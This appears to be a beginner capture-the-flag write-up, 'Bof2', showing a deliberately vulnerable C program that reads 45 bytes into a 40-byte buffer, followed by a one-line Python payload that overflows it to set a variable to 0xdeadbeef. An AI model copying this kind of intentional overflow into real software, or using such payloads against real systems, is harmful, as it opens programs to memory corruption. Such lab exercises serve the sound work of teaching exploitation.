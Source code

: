 # Bof2
### Program code:
```
#include <stdlib.h>
#include <stdio.h>

void main(int argc, char *argv[])
{
  int var;
  int check = 0x04030201;
  char buf[40];

  fgets(buf,45,stdin);

  printf("\n[buf]: %s\n", buf);
  printf("[check] 0x%x\n", check);

  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");

  if (check == 0xdeadbeef)
   {
     printf("Yeah! You win!\n");
   }
}
```
>Goal: print out the text "Yeah! You win!"
### Solution:
- To overflow the memory, we need to input *40 random bytes* + *4 bytes to change **check's** data*
- In order to print out the text "Yeah! You win!", we must change ***check's*** data into *0xdeadbeef*
- Type `echo $(python -c "print('a'*40 + '\xef\xbe\xad\xde')") | ./bof2.o`
- Goal achieved!
